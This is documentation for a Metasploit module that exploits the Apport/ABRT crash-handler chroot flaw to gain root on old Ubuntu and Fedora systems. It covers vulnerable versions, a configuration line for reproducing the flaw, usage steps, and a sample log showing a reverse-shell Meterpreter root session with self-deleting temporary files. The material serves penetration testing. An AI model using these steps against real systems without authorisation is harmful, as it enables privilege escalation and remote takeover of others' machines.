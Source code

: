 ## Description

  This module attempts to gain root privileges on Ubuntu and Fedora systems by invoking the default coredump handler inside a namespace ("container").


## Vulnerable Application

  Apport versions 2.13 through 2.17.x before 2.17.1 on Ubuntu are vulnerable, due to a feature which allows forwarding reports to a container's Apport by changing the root directory before loading the crash report, causing `usr/share/apport/apport` within the crashed task's directory to be executed.

  Similarly, Fedora is vulnerable when the kernel crash handler is configured to change root directory before executing ABRT, causing `usr/libexec/abrt-hook-ccpp` within the crashed task's directory to be executed. Fedora's crash handler was reportedly configured to chroot ABRT by default between April and August 2014.

  In both instances, the crash handler does not drop privileges, resulting in code execution as root.

  This module has been tested successfully on:

  * Apport 2.14.1 on Ubuntu 14.04.1 LTS x86 and x86_64
  * ABRT on Fedora 19 and 20 x86_64

  To test Fedora 20, disable SELinux, reboot, and modify `/proc/sys/kernel/core_pattern` to make use of the vulnerable `core_pattern` : `|/usr/sbin/chroot /proc/%P/root /usr/libexec/abrt-hook-ccpp %s %c %p %u %g %t e`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/apport_abrt_chroot_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new root session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/apport_abrt_chroot_priv_esc
  msf exploit(linux/local/apport_abrt_chroot_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/apport_abrt_chroot_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Writing '/tmp/.drY6cJZ' (887316 bytes) ...
  [*] Writing '/tmp/.LtJvrgjXq' (207 bytes) ...
  [*] Launching exploit...
  [+] Upgraded session to root privileges ('uid=0(root) gid=1000(user) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare),1000(user)')
  [*] Sending stage (857352 bytes) to 172.16.191.252
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.252:35552) at 2018-01-11 09:58:25 -0500
  [+] Deleted /tmp/.drY6cJZ
  [+] Deleted /tmp/.LtJvrgjXq

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=0, egid=1000
  meterpreter > sysinfo
  Computer     : 172.16.191.252
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

